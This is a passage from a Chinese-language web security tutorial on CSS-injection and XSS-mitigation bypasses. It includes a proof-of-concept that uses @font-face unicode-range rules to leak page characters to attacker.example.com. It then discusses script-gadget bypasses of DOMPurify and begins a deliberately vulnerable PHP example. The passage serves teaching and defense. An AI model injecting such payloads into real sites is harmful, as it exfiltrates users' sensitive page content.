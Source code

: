 上图是利用CSS selectors完成攻击的一个示例

#### Abusing Unicode Range

当可以插入CSS的时候，可以使用 ``font-face`` 配合 ``unicode-range`` 获取目标网页对应字符集。PoC如下


    <style>
    @font-face{
     font-family:poc;
     src: url(http://attacker.example.com/?A); /* fetched */
     unicode-range:U+0041;
    }
    @font-face{
     font-family:poc;
     src: url(http://attacker.example.com/?B); /* fetched too */
     unicode-range:U+0042;
    }
    @font-face{
     font-family:poc;
     src: url(http://attacker.example.com/?C); /* not fetched */
     unicode-range:U+0043;
    }
    #sensitive-information{
     font-family:poc;
    }
    </style>
    <p id="sensitive-information">AB</p>


当字符较多时，则可以结合 ``::first-line``  等CSS属性缩小范围，以获取更精确的内容


#### Bypass Via Script Gadgets

一些网站会使用白名单或者一些基于DOM的防御方式，对这些方式，有一种被称为 ``Code Reuse`` 的攻击方式可以绕过。该方式和二进制攻防中的Gadget相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 ``Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets`` 中有该方法的具体描述。

portswigger的一篇博文也表达了类似的想法 ``https://portswigger.net/blog/abusing-javascript-frameworks-to-bypass-xss-mitigations``。

下面有一个简单的例子，这个例子使用了 ``DOMPurify`` 来加固，但是因为引入了 ``jquery.mobile.js`` 导致可以被攻击。

例子:

    // index.php
    <?php

    $msg = $_GET['message'];
    $msg = str_replace("\n", "", $msg);
    $msg = base64_encode($msg);

    ?>

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Preview</title>
        <script type="text/javascript" src="purify.js"></script>
        <script type="text/javascript" src="jquery.js"></script>
        <script type="text/javascript" src="jquery.mobile.js"></script>
    </head>
    <body>
        